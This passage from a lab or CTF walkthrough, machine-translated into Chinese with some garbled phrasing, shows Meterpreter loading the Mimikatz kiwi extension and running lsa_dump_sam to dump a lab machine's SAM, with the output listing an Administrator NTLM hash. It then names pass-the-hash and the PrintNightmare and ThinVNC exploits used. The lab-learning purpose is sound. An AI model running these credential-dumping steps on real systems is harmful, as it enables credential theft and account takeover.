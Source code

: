 我将通过 Meterpreter 的`kiwi`扩展使用*Mimikatz*([MITRE ATT&CK 框架，2017](https://attack.mitre.org/software/S0002/) )通过它的`lsa_dump_sam`命令获得哈希值:

```
**meterpreter > load kiwi**
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX (vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/Success.**meterpreter > lsa_dump_sam**
[+] Running as SYSTEM
[*] Dumping SAM
Domain : GAIA
SysKey : 36c8d26ec0df8b23ce63bcefa6e2d821
Local SID : S-1-5-21-1966530601-3185510712-10604624SAMKey : 6e708461100b4988991ce3b4d8b1784eRID  : 000001f4 (500)
User : Administrator
  Hash NTLM: ****c16444961f67af7eea7e420b65c8c3eb****[... snip ...]**meterpreter >**
```

kiwi 模块报告说`Administrator`的 NTLM 散列是:`c16444961f67af7eea7e420b65c8c3eb`，它可以用于密码破解或传递散列目的([胡梅尔，C](https://www.sans.org/white-papers/33219/) )。

阿洛拉。

# 摘要

尽管这是一个简单的“辅导室”，但花费的时间比预期的要长，因为我有点奇怪的习惯，有点偏离房间作者给出的说明。黑客行为就是打破常规，找到解决常规问题的新颖而巧妙的方法——尤其是在攻击性安全问题上。

尽管如此，我还是按照作者在附录 A.2 中的意图，为感兴趣的人使用了 PrintNightmare 漏洞。我还手动利用了附录 A.1 中的 ThinVNC 漏洞向量来查找任何超常者。

## 外卖食品

*   概念验证有时会被打破，因此建立一个虚拟机实验室，并确保首先对其进行测试。
*   如果概念验证失败了，试着调试它，在网上找一个更可靠的实现，甚至自己设计。我选择了第二个和第三个来开发 ThinVNC。
*   除非你正在参加*攻击性安全认证专家*考试，否则不要害怕使用 Metasploit 和 Meterpreter 让你的生活变得更轻松；-)

## 插头

看看我的朋友米拉·拉辛，她和其他同事一样，需要经济和情感上的帮助。请查看以下链接:

*   她的推特简介:[https://twitter.com/MiraLazine](https://twitter.com/MiraLazine)
*   她的中等身材:[https://medium.com/@MiraLazine](https://medium.com/@MiraLazine)
*   用现金捐给她自己。app:[https://cash.app/$MiraLazine](https://cash.app/$MiraLazine)

# 附录

## A.1 人工开采
